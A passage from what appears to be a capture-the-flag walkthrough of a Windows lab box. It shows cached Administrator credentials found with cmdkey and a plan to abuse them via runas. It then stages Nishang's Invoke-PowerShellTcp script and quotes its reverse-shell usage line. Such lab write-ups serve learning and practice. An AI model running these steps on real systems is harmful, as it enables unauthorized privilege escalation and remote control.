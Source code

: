 ```

C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator

```

Knowing that the administrator credentials are cached, there’s two ways to use them.

### Privesc #1 - Use runas

For people used to Linux environments, `runas` can be quite frustrating. It doesn’t let you just switch users in the same terminal like `su` or `sudo`. It opens a new process in a new window. So I can’t do things like `runas type \users\administrator\desktop\root.txt` and expect to see the results. I could have it copy that file to something I could read. But more fun, I can just get a shell.

#### Get Nishang

Since this is an easier box, I’ll walk through this in detail free free to skip to the last bit of this section if you’re familiar already.

First, I’ll clone a copy of [Nishang](https://github.com/samratashok/nishang) from github if I don’t already have it.

```

root@kali:/opt# git clone https://github.com/samratashok/nishang.git
Cloning into 'nishang'...
remote: Enumerating objects: 1660, done.
remote: Total 1660 (delta 0), reused 0 (delta 0), pack-reused 1660
Receiving objects: 100% (1660/1660), 6.62 MiB | 776.00 KiB/s, done.
Resolving deltas: 100% (1040/1040), done.

```

I’ll make a `www` directory to serve from, and I’ll grab a copy of the shell I’m going to use:

```

root@kali:/opt# mkdir ~/www
root@kali:/opt# cp nishang/Shells/Invoke-PowerShellTcp.ps1 ~/www/

```

#### Prep Shell

If I open up the PowerShell script and look at the usage, I’ll see that I want to do a reverse shell, so something like this:

```

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

```
